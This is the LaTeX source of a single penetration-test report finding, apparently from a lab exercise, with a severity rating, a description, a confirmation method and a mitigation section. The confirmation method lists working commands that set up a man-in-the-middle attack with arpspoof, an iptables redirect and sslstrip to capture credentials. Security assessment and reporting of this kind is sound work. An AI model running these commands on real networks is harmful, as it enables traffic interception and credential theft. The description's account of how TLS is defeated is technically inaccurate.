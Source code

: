     \subsection{Finding: \emph{Credential Access to Secret Page}}
  
	\subsubsection*{Severity Rating}	    
    Risk: Medium \\
    \cvss(A,H,L,N,U,H,L,N,5.4)
		
  	\subsubsection*{Vulnerability Description}
    Once the attacker has root access to the system, they can copy over sslstrip, tcpdump, and arpspoof to packet sniff incoming and outgoing packets. They can use these packets to 
    mount an SSL stripping attack. The attacker can then use arpspoof to mount a man in the middle attack. The TLS packets that are normally encoded can then be unencrypted using sslstripping
    tools which reveals a set of credentials as well as a secret website with sensitive user information. We can see an invoice for a set of superhero gauntlets which is information that should
    not be known by the public. 
   
  	\subsubsection*{Confirmation method}
    We can scp over the initial files we need to mount the attack. Once we have all the essential executables, we can execute the following commands as a root user.
\begin{verbatim}
fuser -k 80/tcp
echo "1" > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT 
--to-port 6166

python3 sslstrip.py -w strip.logs -l 6166 -a
tail -f strip.log
TWO DIFFERENT TERMINALS:
route -n to find gateway (10.70.184.1)
wireshark to find host ip to spoof (10.70.184.101)
Terminal 1:
./arpspoof -i ens32 -t 10.70.184.101 10.70.184.1
Terminal 2:
./arpspoof -i ens32 -t 10.70.184.1 10.70.184.101
\end{verbatim}
   
	\subsubsection*{Mitigation or Resolution Strategy}
    To mitigate this issue, we have to make sure that an attacker should never be able to get root access. Changing user credentials and enforce stricter guidlines for what users have root acces
    needs to be enforced. There are also methods to make sure that HTTPS is always enforced and to not provide HTTP alternatives for any HTTPS requests. 
    

